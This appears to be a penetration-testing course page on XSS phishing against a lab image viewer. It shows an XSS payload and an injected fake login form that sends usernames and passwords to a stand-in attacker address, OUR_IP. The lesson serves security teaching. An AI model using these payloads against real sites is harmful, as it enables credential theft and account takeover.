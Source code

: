 # Phishing
A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.
## Example
### XSS Discovery
We start by attempting to find the XSS vulnerability in the web application at `/phishing`.

We can see this site is a simple online image viewer, where we can input a URL of an image, and it'll display it: `http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg`
![Online Image Viewer with Hack The Box logo.](https://academy.hackthebox.com/storage/modules/103/xss_phishing_image_viewer.jpg)

As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the `dead image url` icon: 
`http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>`

![Online Image Viewer with Image URL input.](https://academy.hackthebox.com/storage/modules/103/xss_phishing_alert.jpg)

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. 

>Tip: To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.
### Login Form Injection
Once we identify a working XSS payload, we can proceed to the phishing attack. 

Payload for this example: 
```javascript
'><script>alert(1)</script>
```

To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. 
- This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:
```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```
